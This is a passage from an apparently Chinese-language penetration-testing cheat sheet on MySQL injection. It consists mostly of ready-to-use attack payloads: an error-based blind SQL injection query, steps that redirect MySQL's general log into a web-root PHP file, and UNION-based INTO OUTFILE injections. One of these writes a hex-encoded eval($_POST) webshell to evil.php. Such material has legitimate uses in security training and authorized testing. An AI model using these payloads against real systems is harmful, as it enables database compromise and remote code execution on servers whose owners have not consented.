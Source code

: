 ~~~http
select * from ty_user where id=1-if(ascii(left(database(),1))=118,1,exp(710))
~~~



#### MYSQL-getshell

##### 1）全局日志写入

~~~
//是否开启全局日志，设置开启并确定写入路径
show variables like '%general%';
set global general_log=on;
set global general_log_file = 'D:/phpStudy/phpstudy_pro/WWW/log.php';

//日志记录方式设置成file
show variables like 'log_output';
set global log_output='file';

//新建查询，然后写入webshell
select '<?php phpinfo();?>';
~~~

[![ppg71JI.png](https://s1.ax1x.com/2023/03/30/ppg71JI.png)](https://imgse.com/i/ppg71JI)[![ppg73Wt.png](https://s1.ax1x.com/2023/03/30/ppg73Wt.png)](https://imgse.com/i/ppg73Wt)

##### 2）into outfile / into dumpfile

~~~
//查看secure-file-priv参数的值，5.6以下默认是空，以上是null
show global variables like '%secure%';
//可以在webshell下修改这个mysql.ini的值
~~~

[![ppg7sS0.png](https://s1.ax1x.com/2023/03/30/ppg7sS0.png)](https://imgse.com/i/ppg7sS0)

~~~
//黑盒
?id=1 union select 1,"<?php phpinfo();?>",3 into outfile 'E:/study/WWW/evil.php'

?id=1 union select 1,0x223c3f70687020406576616c28245f504f53545b2767275d293b3f3e22,3 into outfile "E:/study/WWW/evil.php"

?id=1 INTO OUTFILE '物理路径' lines terminated by  （一句话hex编码）#
?id=1 INTO OUTFILE '物理路径' fields terminated by （一句话hex编码）#
?id=1 INTO OUTFILE '物理路径' columns terminated by （一句话hex编码）#
?id=1 INTO OUTFILE '物理路径' lines starting by    （一句话hex编码）#



//白盒
select "<?php phpinfo();?>" into outfile 'D:/phpStudy/phpstudy_pro/WWW/evil.php';

C:/ProgramData/MySQL/MySQL Server 8.0/Uploads/

~~~
